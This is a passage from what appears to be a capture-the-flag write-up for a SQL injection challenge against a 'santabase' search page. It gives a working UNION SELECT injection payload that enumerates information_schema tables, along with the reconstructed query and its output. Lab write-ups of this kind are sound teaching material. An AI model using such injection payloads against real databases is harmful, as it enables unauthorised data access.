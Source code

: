As we can see the result of the query on the screen, it's a little easier that last time. Firstly, let's think of what the query might be. It could be something like this:

```sql
SELECT id, descr, proof FROM santabase WHERE descr LIKE '%search text%' OR proof LIKE '%search text%'
```

If this were the query, we could use a `UNION SELECT` to add our own query. Let's try getting the table names. I came up with the following query:

```sql
UNION SELECT table_name, 2, 3 FROM information_schema.tables
```

The `2` and `3` in the `SELECT` are a filler because our guessed query has three columns. The use this query we have to escape the string in the query first. To do this, I added a `'` before our query and appended the symbols for a comment (`--`) at the end. This results in the following input: `' UNION SELECT table_name, 2, 3 FROM information_schema.tables -- `. This way the query that will be executed becomes this:

```sql
SELECT id, descr, proof FROM santabase WHERE descr LIKE '%' UNION SELECT table_name, 2, 3 FROM information_schema.tables -- %' OR proof LIKE '%' UNION SELECT table_name, 2, 3 FROM information_schema.tables -- %'
```

As you can see the string is escaped and the result of this query will have the result of our query at the end.

When submitting it I got the following result:

{{< code language="text" title="Result" >}}

```markdown
| id                                                 | Description   | Proof        |
| -------------------------------------------------- | ------------- | ------------ |
| 1                                                  | Acces-------- | The a------- |
| 2                                                  | KFC R-------- | The 1------- |
| 3                                                  | Adven-------- | FLAG ------- |
| 4                                                  | The d-------- | Do yo------- |
| ALL_PLUGINS                                        | 2--------     | 3-------     |
| APPLICABLE_ROLES                                   | 2--------     | 3-------     |
| CHARACTER_SETS                                     | 2--------     | 3-------     |
| CHECK_CONSTRAINTS                                  | 2--------     | 3-------     |
| COLLATIONS                                         | 2--------     | 3-------     |
| COLLATION_CHARACTER_SET_APPLICABILITY              | 2--------     | 3-------     |
| COLUMNS                                            | 2--------     | 3-------     |
| COLUMN_PRIVILEGES                                  | 2--------     | 3-------     |
| ENABLED_ROLES                                      | 2--------     | 3-------     |
| ENGINES                                            | 2--------     | 3-------     |
| EVENTS                                             | 2--------     | 3-------     |
| FILES                                              | 2--------     | 3-------     |
| GLOBAL_STATUS                                      | 2--------     | 3-------     |
| GLOBAL_VARIABLES                                   | 2--------     | 3-------     |
| KEY_CACHES                                         | 2--------     | 3-------     |
| KEY_COLUMN_USAGE                                   | 2--------     | 3-------     |
| PARAMETERS                                         | 2--------     | 3-------     |
| PARTITIONS                                         | 2--------     | 3-------     |
| PLUGINS                                            | 2--------     | 3-------     |
| PROCESSLIST                                        | 2--------     | 3-------     |
| PROFILING                                          | 2--------     | 3-------     |
| REFERENTIAL_CONSTRAINTS                            | 2--------     | 3-------     |
| ROUTINES                                           | 2--------     | 3-------     |
| SCHEMATA                                           | 2--------     | 3-------     |
| SCHEMA_PRIVILEGES                                  | 2--------     | 3-------     |
| SESSION_STATUS                                     | 2--------     | 3-------     |
| SESSION_VARIABLES                                  | 2--------     | 3-------     |
| STATISTICS                                         | 2--------     | 3-------     |
```